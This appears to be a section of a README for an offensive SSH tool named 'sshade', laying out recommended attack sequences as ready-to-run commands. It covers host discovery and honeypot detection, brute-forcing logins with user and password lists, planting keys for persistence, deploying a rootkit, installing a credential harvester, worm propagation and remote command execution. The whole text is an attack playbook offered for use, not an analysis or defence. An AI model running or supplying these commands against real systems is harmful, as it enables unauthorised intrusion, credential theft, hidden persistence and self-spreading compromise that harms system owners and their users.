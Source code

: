 ## Attack Pairing Recommendations

### 🔥 **Reconnaissance Phase**
**Recommended Sequence:**
1. **Discovery → Fingerprinting → Detection**
   ```bash
   # Step 1: Find live SSH hosts
   python3 sshade.py -t 192.168.1.0/24 -m discover
   
   # Step 2: Fingerprint discovered hosts
   python3 sshade.py -t 192.168.1.100 --fingerprint
   
   # Step 3: Check for honeypots
   python3 sshade.py -t 192.168.1.100 -m detect
   ```

### ⚡ **Initial Access Phase**
**Recommended Sequence:**
1. **Brute Force → Persistence**
   ```bash
   # Step 1: Brute force attack
   python3 sshade.py -t 192.168.1.100 -m brute -u users.txt -w passwords.txt
   
   # Step 2: Establish persistence (after successful login)
   python3 sshade.py -t 192.168.1.100 -m persist -k keys/demo_id_rsa.pub
   ```

2. **Brute Force → Rootkit Deployment**
   ```bash
   # Step 1: Brute force attack
   python3 sshade.py -t 192.168.1.100 -m brute
   
   # Step 2: Deploy rootkit for stealth
   python3 sshade.py -t 192.168.1.100 --rootkit
   ```

### 🕵️ **Post-Exploitation Phase**
**Recommended Sequence:**
1. **Credential Harvesting → Worm Propagation**
   ```bash
   # Step 1: Install credential harvester
   python3 sshade.py -t 192.168.1.100 -m credharv --credharv-action wrapper
   
   # Step 2: Propagate to other hosts
   python3 sshade.py -t 192.168.1.100 --worm
   ```

2. **Command Execution → Persistence**
   ```bash
   # Step 1: Execute reconnaissance commands
   python3 sshade.py -t 192.168.1.100 -m exec -c "uname -a && whoami && ps aux"
   
   # Step 2: Establish persistence
   python3 sshade.py -t 192.168.1.100 -m persist
   ```
